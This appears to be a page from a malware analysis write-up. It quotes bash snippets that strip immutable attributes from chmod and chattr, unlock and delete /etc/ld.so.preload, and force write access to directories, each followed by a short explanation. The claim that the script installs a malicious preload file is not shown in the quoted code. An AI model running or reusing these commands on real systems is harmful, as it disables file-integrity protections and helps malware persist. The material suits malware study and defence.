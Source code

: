 ```bash
log "$CYAN" "Handling some filemods ..."
CHECKCHMOD=`command -v mchmod`
if ! [ -z "$CHECKCHMOD" ] ; then 
  log "$BLUE" "Found mchmod, removing immutable attributes from chmod"
  mchattr -ia $(command -v chmod) 
  tntrecht -ia  $(command -v chmod) 
  mchmod +x  $(command -v chmod) 
fi

CHECKCHATTR=`command -v mchattr`
if ! [ -z "$CHECKCHATTR" ] ; then 
  log "$BLUE" "Found mchattr, removing immutable attributes from chattr"
  mchattr -ia $(command -v chattr) 
  tntrecht -ia  $(command -v chattr) 
  mchmod +x  $(command -v chattr) 
  chmod +x  $(command -v chattr) 
fi
```

this function manipulates file permissions. it disables file immutability protections and targets system binaries (`chmod`, `chattr`) that control file permissions.

```bash
log "$CYAN" "Handling preload ld ..."
if [ -f "/etc/ld.so.preload" ] ; then 
  log "$YELLOW" "Found: /etc/ld.so.preload"
  chattr -ia / /etc/ /etc/ld.so.preload
  log "$YELLOW" "Current preload content:"
  cat /etc/ld.so.preload
  rm -f /etc/ld.so.preload 
else 
  log "$BLUE" "No /etc/ld.so.preload file found!"
fi
```

this function tries to hijack the shared library. `LD_PRELOAD` is a feature that allows library function interception, so it checks for an existing `LD_PRELOAD` configuration and removes immutable attributes from it if it exists. it deletes the existing preload file and replaces it with a malicious one.

```bash
log "$CYAN" "Handling dir permissions ld ..."
for DIR in "${DIR_ARRAY[@]}"; do
  if [ -d "$DIR" ] ; then 
    log "$GREEN" "$DIR found."
    if [ -w "$DIR" ] ; then 
      log "$GREEN" "Write rights in $DIR available."
    else 
      log "$YELLOW" "No write permissions in $DIR available. Try to fix the error."
      chattr -ia "$DIR"
      if [ -w "$DIR" ] ; then 
        log "$GREEN" "Write rights in $DIR available."
      else 
        log "$RED" "Still no write access in $DIR."
      fi
    fi
  else 
    log "$RED" "$DIR not found."
  fi
done
```
